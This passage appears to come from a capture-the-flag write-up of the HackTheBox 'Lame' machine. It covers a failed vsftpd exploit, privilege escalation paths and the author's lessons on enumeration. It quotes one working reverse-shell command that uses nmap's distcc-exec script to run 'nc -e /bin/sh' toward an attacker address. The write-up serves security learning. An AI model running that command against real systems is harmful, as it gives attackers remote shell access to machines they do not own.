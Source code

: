 I think I missed it because I search for `smb` and not `samba`.
### 0xdf writeup
In 0xdf writeup, there is an explanation on why the exploit for the vsftpd server fails. It seems to be due to the firewall. There is also a demo to check it: https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd

There is also a writeup on the `distcc` exploit that I used: https://0xdf.gitlab.io/2020/04/08/htb-lame-more.html
I like the remote shell command which is simpler than me:
```
nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc -e /bin/sh 10.10.14.24 443'"
```
There are also multiple ways to get privilege escalation. The first one is by using a vulnerability on how the root SSH key has been generated (see CVE-2008-0166). It makes the key predictable, and you can get the private key back from the public key.
I had been a bit lucky (and helped by the syntax coloration of linpeas.sh) to guess that nmap could be used to get privilege escalation. However, there is the GTFOBins website that can be used to find how to escalate privilege with different binaries: https://gtfobins.github.io/
## Lessons learned
I could break this box so much quickly. I lost time on the Samba server, trying to connect and looking into the files in it. I also missed the `distcc` open port at first because I focused on the vulnerable FTP server without finishing the enumeration.
In the future:
* I should do a proper enumeration first by looking at the data available and what could be possible to exploit without doing right now,
* I should read carefully the logs of the scan,
* I should search for different names of a service in searchsploit (not only `smb` but also `samba`)
